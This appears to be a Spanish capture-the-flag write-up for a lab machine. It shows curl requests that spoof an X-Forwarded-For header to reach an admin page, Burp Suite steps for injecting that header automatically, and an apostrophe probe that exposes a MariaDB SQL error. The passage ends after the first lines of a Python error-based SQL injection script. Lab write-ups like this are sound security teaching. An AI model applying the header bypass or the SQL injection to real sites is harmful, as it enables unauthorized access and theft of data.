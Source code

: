 ```bash
curl -s -X GET "http://10.10.10.167/admin.php" -H "X-Forwarded-For: 192.168.4.28"
```

Aqui vemos que nos a cargado una pagina.

```bash
curl -s -X GET "http://10.10.10.167/admin.php" -H "X-Forwarded-For: 192.168.4.28" | html2text
```

Como vemos informaciones interesantes, vamos a tirar de **burpsuite** para ver la informacion de manera normal.

### Añadir cabezera desde Burpsuite {-}

Una vez el burpsuite configurado con la maquina victima de target, vamos a añadir una cabezera. Lo podemos hacer de 2 maneras:

- Manual (cambiando de manera manual a cada peticion el header)
- Automatizada (que cada peticion use este header)

1. Pinchamos a Proxy > Options
1. Add Match and Replace

![Cotrol-bur-xforwardifor](/assets/images/Control-burp-xforwardingfor.png)

1. Interceptamos y vemos que se añade la cabezera
1. Desactivamos el intersepte

Ya podemos navegar de manera normal.

Vemos una pagina con productos y un input para buscar productos. Si escribimos un producto, aparece una tabla con un titulo **id**.

Probamos poner un apostrofe

```bash
 ' 
```

 en el input de busqueda y nos sale un error SQL `Error SQLSTATE[42000] Syntax error or access violation You have an error in your SQL
syntax, check the manual that corresponds to your MariaDB server version for the right syntax to use near "'" at line 1`

## Vulnerability Assessment {-}

### SQL Injection Error Based con Python {-}

La idea aqui es crear un script en python que nos injecte el comando deseado y que filtre la respuesta al lado del servidor que
queremos.

```python
#!/usr/bin/python3

import requests
import re
import signal
import sys
import time

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Variables_globales
```